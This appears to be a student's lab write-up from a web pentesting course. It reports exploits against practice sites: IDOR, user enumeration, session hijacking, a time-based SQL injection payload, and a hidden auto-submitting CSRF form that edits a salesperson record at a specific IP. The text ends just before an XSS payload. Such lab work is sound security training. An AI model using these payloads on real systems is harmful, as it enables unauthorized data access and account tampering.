






Unit 9
Pentesting Live Targets

List of Exploits
1.	User Enumeration
2.	Insecure Direct Object Reference
3.	SQL Injection
4.	Cross-Site Scripting
5.	Cross-Site Request Forgery
6.	Session Hijacking/Fixation

Red

Exploit 1: Insecure Direct Object Reference

Procedure:

You can access hidden user profiles and information that you should not be able to view. This is done by modifying the ‘id’ parameter in the URL to a different number to change the get request. This gives you access to hidden accounts if the correct id number is used.

Exploit 2: Cross-Site Request Forgery

Procedure:

You can create an html file that takes over a session in order to modify and forge a database request if they select the link. You submit the form through the “Contact Us” page and give some incentive for the user to go to the html file page. This then puts into effect your changes from the html file into the website/database.

The following is the hmtl form we injected (form.html) :

    <title>I AM REAL</title>
    
  </head>
  
  <body onload="document.my_form.submit()">
    
    <form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=5" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="BEAN" />
      
      <input type="text" name="last_name" value="Var" />
      
      <input type="text" name="phone" value="111-867-5309" />
      
      <input type="text" name="email" value="gmail@yahoo.com" />
      
    </form>
    
    <iframe name="hidden_results" style="display: none;"></iframe>
    
  </body>
  
</html>

Blue

Exploit 1: SQL Injection

Procedure: 

You are able to inject a SQL command into the URL that will be executed. You do so by entering the desired command in place of the id number in the URL. Here we use a sleep command to make the site wait for the desired amount of time we enter. The command we used was:

%27%20OR%20SLEEP(10)=0--%27

Exploit 2: Session Hijacking/Fixation

Procedure:

You steal the session id of a user who is logged into the website. After taking this session ID, we use burp to intercept our request to access a page and replace our session ID with the stolen one. Since we are not signed in, we were unable to access the desired page, but by using the stolen session id we are given permission to access this page we normally cannot.

Green

Exploit 1: User Enumeration

Procedure:

We notice that there are two different errors given when entering an incorrect username/password combination. When we enter a username that is valid, but an incorrect password, the error message we receive is in bold lettering. However, when we enter an incorrect username, we receive the same error message but in standard (not bold) type. Under further inspection, we see that there are two different classes assigned to each situation. Class “failure” applies to a valid username but incorrect password, while class “failed” applies to an incorrect username. Using this knowledge, we can go through and brute force usernames to gain knowledge about what user’s exist in the system and which do not.

Exploit 2: Cross-Site Scripting

Procedure:

We are able to use the sites feedback form to inject a Cross-Site Scripting command. Once the user checks their feedback page, the script will run. The command we use is: 

